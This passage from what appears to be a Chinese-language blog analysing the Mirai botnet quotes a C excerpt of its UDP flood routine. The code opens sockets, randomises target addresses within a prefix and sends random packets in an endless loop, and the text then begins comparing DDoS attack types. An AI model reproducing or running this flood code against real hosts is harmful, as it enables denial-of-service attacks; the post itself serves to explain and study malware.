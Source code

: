 ```
            targs[i].sock_addr.sin_port = htons(dport);

        if ((fds[i] = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP)) == -1)
        {
            return;
        }

        bind_addr.sin_family = AF_INET;
        bind_addr.sin_port = sport;
        bind_addr.sin_addr.s_addr = 0;

        bind(fds[i], (struct sockaddr *)&bind_addr, sizeof (struct sockaddr_in));

        // For prefix attacks
        if (targs[i].netmask < 32)
            targs[i].sock_addr.sin_addr.s_addr = htonl(ntohl(targs[i].addr) + (((uint32_t)rand_next()) >> targs[i].netmask));

        // 区别于tcp的connect, 不会真正建立链接，只是加快udp发送
        connect(fds[i], (struct sockaddr *)&targs[i].sock_addr, sizeof (struct sockaddr_in));
    }
    
    // 设置好所有packets后，发送封包
    while (TRUE)
    {
        for (i = 0; i < targs_len; i++)
        {
            char *data = pkts[i];

            // Randomize packet content?
            if (data_rand)
                // 没有指定长度的话，data长度默认是512
                rand_str(data, data_len);

            send(fds[i], data, data_len, MSG_NOSIGNAL);
        }
    }
}
```


通过以上源码的分析可以看出，DDoS攻击也不外乎就是构造封包，发送封包这一套，其他的攻击类型的源码也都大同小异。关键在于中间的protocol是什么。



## DDoS攻击有高下之分吗

在这么多DDoS的攻击方式里面，到底那一种攻击方式最强，威胁最大呢？是能造成超大流量的UDP攻击？还是精确打击消耗服务资源的HTTP flood？

还是以Mirai作为例子进行探索，在[《A Field Guide to Understanding IoT Attacks from the Mirai Botnet to Its Modern Variants》](https://www.datacom.cz/userfiles/miraihandbookebook_final.pdf)上面有对各种攻击详细的解释，包括各种攻击的bandwidth profile（主要由BPS（bit per second）,PPS(packet per second)组成），甚至还给他们按照威胁指数进行排名。
